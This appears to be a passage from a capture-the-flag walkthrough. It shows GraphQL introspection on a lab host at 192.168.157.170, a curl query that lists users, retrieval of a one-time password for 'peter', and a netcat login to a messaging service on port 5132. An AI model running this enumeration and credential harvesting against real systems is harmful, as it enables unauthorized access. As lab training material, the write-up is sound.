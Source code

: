 ```
{__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name, kind}}}}}}}
```

Using this, we can find two interesting functions:

<figure><img src="../../../.gitbook/assets/image (200).png" alt=""><figcaption></figcaption></figure>

The first one just gives us usernames:

```
$ curl --silent http://192.168.157.170:8433/graphql?query=%7BlistUsers%7D | jq
{
  "data": {
    "listUsers": "['peter', 'jason']"
  }
}
```

The second one takes a user as input. We can get a password for `peter` using this method:

<figure><img src="../../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

Using this, we can interact with the service on port 5132. The creds also don't work with SSH.

### SSH Creds

We can connect to port 5132 via `nc`:

```
$ nc -vn 192.168.157.170 5132                 
(UNKNOWN) [192.168.157.170] 5132 (?) open
Enter Username: peter
Enter OTP: CG5pzyISVOMvErUz
$ help

list    list messages
create  create new message
exit    exit the messaging system
read    read the message with given id
update  update the message with given id
help    Show this help 
```
